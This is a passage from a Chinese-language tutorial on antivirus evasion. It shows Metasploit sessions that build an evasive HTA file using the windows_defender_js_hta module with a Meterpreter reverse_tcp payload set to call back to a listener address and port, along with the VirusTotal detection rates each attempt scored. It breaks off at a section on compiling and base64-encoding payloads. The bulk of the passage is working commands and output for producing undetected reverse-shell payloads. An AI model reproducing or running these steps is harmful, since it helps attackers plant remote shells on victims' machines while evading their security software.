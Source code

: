```bash

[*] Compiled executable size: 3584
[+] Hmotkr.exe stored at /root/.msf4/local/Hmotkr.exe

```

[![B8sEf1.md.png](https://s1.ax1x.com/2020/10/29/B8sEf1.md.png)](https://imgchr.com/i/B8sEf1)

VT免杀率44/71。 火绒秒杀。

使用 `windows/windows_defender_js_hta` 生成

```bash
msf5 > use evasion/windows/windows_defender_js_hta 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 evasion(windows/windows_defender_js_hta) > show options 

Module options (evasion/windows/windows_defender_js_hta):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  azUXtL.hta       yes       Filename for the evasive file (default: random)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.2.131    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Evasion target:

   Id  Name
   --  ----
   0   Microsoft Windows


msf5 evasion(windows/windows_defender_js_hta) > exploit 

[+] azUXtL.hta stored at /root/.msf4/local/azUXtL.hta

```

[![B8sT91.md.png](https://s1.ax1x.com/2020/10/29/B8sT91.md.png)](https://imgchr.com/i/B8sT91)

VT免杀率21/61。 火绒秒杀。

#### 10.9 msf自编译+base64处理（40/71)

Metasploit Framework的C编译器其实是Metasm的包装器(Metasm是一个Ruby库)，可用于汇编、反汇编和编译C代码。

使用改C编译器时，需要以下两个函数：
